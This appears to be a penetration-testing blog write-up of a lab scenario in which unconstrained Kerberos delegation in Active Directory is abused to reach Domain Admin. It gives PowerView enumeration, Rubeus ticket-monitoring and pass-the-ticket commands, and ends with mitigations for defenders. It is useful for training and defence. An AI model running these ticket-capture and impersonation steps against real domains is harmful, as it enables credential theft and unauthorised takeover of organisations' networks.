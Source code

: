 #  Unconstrained Delegation in Active Directory  
### From a Penetration Testing Perspective

---

## Introduction

In modern Active Directory (AD) environments, **Unconstrained Delegation** remains a commonly abused misconfiguration. It provides an easy path for privilege escalation and lateral movement, especially in internal penetration tests where attackers assume the breach scenario.

This blog documents a full scenario from a red team perspective, demonstrating how a compromised machine configured with unconstrained delegation can lead to Domain Admin compromise.

---

## Lab Setup

- **Engagement Type:** Internal Active Directory Penetration Test  
- **Assessment Approach:** Assume Breach (Local Admin on host)  
- **Duration:** 2 Days  
- **Attacker Host:** `JOINEDDOMAIN2`

---

##  Step 1: Discover Unconstrained Delegation Machines

First, we import PowerView and PowerUp modules to enumerate AD objects:

```powershell
powershell -ep bypass
.\powerview.ps1
.\powerup.ps1
Get-DomainComputer -Unconstrained | Select-Object -ExpandProperty name
```

**Output:**

![image](https://github.com/user-attachments/assets/88c45cee-fa40-4e66-b5e9-1dcfaacf3d36)

As seen, `JOINEDDOMAIN2` is among the systems configured with unconstrained delegation.

---

##  Step 2: Confirm NTLM Compatibility (for Kerberos Ticket Handling)

Ensure the target machine allows the usage of NTLMv2, which supports the Kerberos ticket handling used in our attack.

![image](https://github.com/user-attachments/assets/e4324116-333c-4377-a941-84f759b8b1c1)


---

##  Step 3: Start TGT Monitoring with Rubeus

```powershell
.\Rubeus.exe monitor /interval:10 /filteruser:JOINEDDOMAIN2 /nowrap
```

Rubeus will monitor for incoming TGTs every 10 seconds.
![image](https://github.com/user-attachments/assets/db10458c-6780-42e9-a137-e96e6b81b10d)


---

##  Step 4: Admin RDP Access (Victim Logs In)

Enable RDP on the victim machine (JOINEDDOMAIN2):

![image](https://github.com/user-attachments/assets/47dc29a9-3b6f-4f85-88c9-4b198b55d3af)


Domain admin logs in via RDP:

![image](https://github.com/user-attachments/assets/e20c5eff-0255-4988-8d7e-2ce714995a55)


Connection from domain controller using MARVEL\Administrator:

![image](https://github.com/user-attachments/assets/a2bb378e-b1be-4e5b-b53e-b6b35c11374c)


---

##  Step 5: TGT Captured by Rubeus

Once the Domain Admin logs in, Rubeus captures the TGT:

![image](https://github.com/user-attachments/assets/211b3920-79e6-4c6f-bd6a-ab9fd8561f32)


---

##  Step 6: Inject TGT and Assume Identity

Use the captured TGT to inject and impersonate the Domain Admin:

```powershell
.\Rubeus.exe ptt /ticket:BASE64TICKET==
```

Result:

![image](https://github.com/user-attachments/assets/e64d6e62-2bc7-43b6-8d56-3a22eb8c1950)


---

##  Step 7: Explore Filesystem as Domain Admin

List contents of `Administrator` and `Pparker` profiles to demonstrate proof of access:



---

##  Mitigations for Blue Teams

- Audit delegation settings:
  ```powershell
  Get-ADComputer -Filter * -Properties TrustedForDelegation | Where-Object { $_.TrustedForDelegation -eq $true }
  ```
- Replace unconstrained delegation with **constrained** or **resource-based constrained delegation**.
- Restrict high-privilege accounts from logging into non-secure hosts.
- Monitor for tools like Rubeus using EDR solutions.
![image](https://github.com/user-attachments/assets/c0e77148-a898-4ba3-b039-7fb63679b98c)

---

##  Conclusion

This scenario demonstrates how **Unconstrained Delegation**, although an old vulnerability, still leads to **Domain Admin compromise** in 2025 environments. It is a red team's low-effort, high-reward pathway when misconfigurations persist in internal networks.

**Lesson:** One RDP session to the wrong host can compromise your domain.

---

* Toolset: PowerView, PowerUp, Rubeus | Scenario: JOINEDDOMAIN2 Misconfiguration Exploitation*


